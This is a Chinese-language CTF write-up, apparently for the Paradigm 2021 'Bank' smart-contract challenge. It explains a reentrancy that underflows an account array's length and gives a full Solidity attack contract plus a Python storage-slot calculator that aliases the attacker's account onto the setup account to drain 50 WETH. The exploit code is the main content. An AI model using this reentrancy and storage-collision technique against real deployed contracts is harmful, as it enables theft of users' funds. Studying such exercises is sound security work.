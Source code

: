 ```yaml
---
layout: post
title:  "Paradigm 2021 Bank题解"
date:   2021-07-19 11:07:32 +0800
categories: paradigm
---
```

### 题目逻辑

1. Setup在Bank里存了50个WETH，目的是清空这50个WETH
2. close函数作用和withdraw函数有重合，可能存在重入使length下溢

```
deposite
    $id <= len
    if id == len:
        len+=1
    ->1
    utk+=1
    ->2

withdraw
    $id < len
    last=len-1
    ->1
    utk--
    if utk==0 and id==last:
        len-=1
    ->2

close
    $len > 0
    $utk==0
    len--
```

1. 肉眼分析可得下溢的流程

```
deposite()
        len=1
        bala(1):withdraw()
            $0<1
            bala(2):deposite()
                $0<=1
                bala(3):close()
                    $len>0
                    $utk==0
                    len=0
                utk=1
                bala(4)
                bala(5)
            utk=0
            len=-1
            bala(6)
            bala(7)
        utk=1
        bala(8)
        bala(9)
```

### 解题

1. 创建攻击合约

```solidity
contract BadToken {
    uint256 public enter_count = 0;
    address public self;
    Bank public b;
    
    constructor() {
        self = address(this);
    }
    
    function transfer(address dst, uint qty) public returns (bool) {
        return true;
    }
    
    function transferFrom(address src, address dst, uint qty) public returns (bool) {
        return true;
    }
    
    function approve(address dst, uint qty) public returns (bool) {
        
    }
    
    function set_enter(uint256 e) public {
        enter_count = e;
    }
    
    function balanceOf(address who) public returns (uint) {
        enter_count += 1;
        if(enter_count == 1) {
            b.withdrawToken(0, self, 0);
        }
        if(enter_count == 2) {
            b.depositToken(0, self, 0);
        }
        if(enter_count == 3) {
            b.closeLastAccount();
        }
        return 0;
    }
    
    function init(address target) public {
         b = Bank(target);
    }
    
    function pwn() public {
        b.depositToken(0, self, 0);
    }
    
    function pwn2(uint256 aid) public {
        address weth9 = 0x3ABb7E6DA32ddCf064848c4A890226330114c4a5;
        b.withdrawToken(aid, weth9, 50 ether);
        WETH9(weth9).transfer(0x233333F494990E8BBa9143a1964C3d91597eee81, 50 ether);
    }
}
```
注意```transfer```和```transferFrom```函数返回值必须为true
2. 执行```init(bank)```和```pwn()```之后，```accounts[hack].length```已经下溢到```zinf-1```，只需让```accounts[hack][accountId]```指向```accounts[setup][0]```，这里有个坑点，结构体数组的存储是按结构体元素个数的，这里结构体元素占了3个slot，所以```accounts[hack]```数组的地址和```accounts[setup]```数组的地址差值必须是3的倍数，构造计算代码如下

```python
def calc_aid(hack, setup):
    ss = get_storage_key(2, setup)
    settab = sha(int(ss, 16))
    hh = get_storage_key(2, hack)
    hactab = sha(int(hh, 16))
    delta = int(settab, 16) - int(hactab, 16)
    if delta < 0:
        delta += zinf
    print(f"{hex(delta)} % 3 == {delta % 3}")
    return hex(delta // 3)
```

多部署几个hack，当地址满足条件时调用```pwn2(calc_aid(hack, setup))```即可将setup账户存在bank的所有weth9提取出来并转账给攻击者

### 扩展

可以手动构建函数骨架逻辑后自动化跑重入点，参考GitHub Repo